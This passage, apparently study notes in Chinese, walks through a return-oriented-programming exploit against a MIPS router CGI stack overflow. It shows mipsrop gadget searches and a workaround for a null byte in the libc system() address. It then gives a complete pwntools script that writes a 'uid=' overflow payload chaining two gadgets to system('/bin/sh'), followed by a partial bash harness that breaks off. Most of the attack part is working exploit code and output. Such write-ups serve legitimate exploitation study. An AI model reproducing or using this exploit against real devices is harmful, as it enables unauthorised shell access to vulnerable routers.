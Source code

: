 找到该函数后，我们需要寻找到可以调用该函数的gadget。这时候`MIPSROP`就派上用场了。
使用命令`mipsrop.stackfinder()`寻找相应的把栈里面的数据扔到寄存器的指令，找到一条指令如下：
```C
python>mipsrop.stackfinder()
------------------------------------------------------------------
|  Address     |  Action                     |  Control Jump      |
------------------------------------------------------------------
|  0x000159CC  |  addiu $s5,$sp,0x170+var_160|  jalr  $s0         |

.text:000159CC                 addiu   $s5, $sp, 0x170+var_160
.text:000159D0                 move    $a1, $s3
.text:000159D4                 move    $a2, $s1
.text:000159D8                 move    $t9, $s0
.text:000159DC                 jalr    $t9 ; 
.text:000159E0                 move    $a0, $s5
```
可以看到这条指令把\$sp+0x10地址存入\$s5中，并在`0x159E0`处将\$s5寄存器的值作为参数传递给\$a0，并且将\$s0中的值作为地址进行调用，因此只需将\$s0中的值赋值为system函数的地址，并将\$sp+0x10地址赋值为需要执行的命令即可实现`system('command')`的函数调用。又因为前面提过\$s0寄存器可控，所以现在从理论上来说已经实现了ROP完整攻击的设计。

书上提到过一个问题，即libc.so.0库的基址为0x2aaf8000，而system的偏移为`0x53200`，二者相加的system函数地址`0x2ab4b200`的末位仍然是`\x00`，会使得sprintf函数截断字符串导致攻击失败。

解决办法为：首先将\$s0覆盖为目标地址附近的不包含`\x00`的地址，然后在libc中搜索指令，通过对\$s0进行加减操作，将该寄存器中的值改变为需要的地址。

具体来说实现如下：将\$s0的地址覆盖为`0x2ab4b1ff`，然后在libc中搜索一条指令对$s0进行操作，再跳转到`call system`指令，搜索指令的命令为`mipsrop.find('addiu $s0,1')`。
```c
Python>mipsrop.find('addiu $s0,1')
-------------------------------------------------------------------
|  Address     |  Action              |  Control Jump             |
-------------------------------------------------------------------
|  0x000158C8  |  addiu $s0,1         |  jalr  $s5                |
```

所以完整的ROP链为`0x000158C8 --> 0x159CC `

完整exp如下：

```PYTHON
from pwn import *

system_addr=0x76738000+0x53200
gadget1=0x76738000+0x000158C8
gadget2=0x76738000+0x000159CC 
addr=0x76fff218-0x300
f=open("payload","wb")
data='uid='
data+='A'*(0x3f1-0x24)+p32(system_addr-1)+p32(addr)*4+p32(gadget2)+p32(addr)*2+p32(addr)+p32(gadget1)+p32(addr)*4+'/bin/sh\x00'
f.write(data)
f.close()
```
```C
#!/bin/bash
# cgi_run.sh
# sudo ./cgi_run.sh `

python generate.py
INPUT=$(<payload)

LEN=$(echo $INPUT | wc -c)
PORT="1234"

echo $LEN
echo 123
echo $INPUT
echo $UID
```